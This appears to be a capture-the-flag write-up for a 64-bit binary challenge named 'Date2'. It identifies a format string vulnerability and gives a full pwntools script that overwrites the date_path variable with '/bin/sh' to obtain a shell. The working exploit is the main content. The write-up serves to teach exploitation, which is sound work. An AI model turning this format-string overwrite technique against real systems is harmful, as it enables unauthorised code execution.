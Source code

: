 # Date2

```
Description
No more buffer overflow this time

Author
Eth007
```


We got a binary, lets check the arch and the protections etc..:

![img](images/checksec.jpg)

So we can see nx and canary are enabled, pie is disabled and Partial Relro instead of Full Relro and again an 64 bit binary. Lets decompile it in ghidra:

![img](images/ghidra.jpg)

We can see that we dont have an overflow but we have an format string vulnerability. Here a good explanation: https://axcheron.github.io/exploit-101-format-strings/

We can also see in ghidra that the date_path is pointing to the .data section. So what we need to do is writing `/bin/sh` to `date_path` with the format string vuln. Pwntools have a good function `fmtstr_payload`, you can also do it manually, check the article above. 

We first need to find our offset:

![img](images/offset.jpg)


```py
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
'''.format(**locals())

# Binary filename
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'critical'

# Start program
io = start()

# Payload

date_path = elf.sym['date_path']
payload = fmtstr_payload(6, {date_path : '/bin/sh\x00'})

# Send the payload
io.sendlineafter(b'date?\n', payload)

# Got Shell?
io.interactive()
```

Lets run it:

![img](images/flag.jpg)

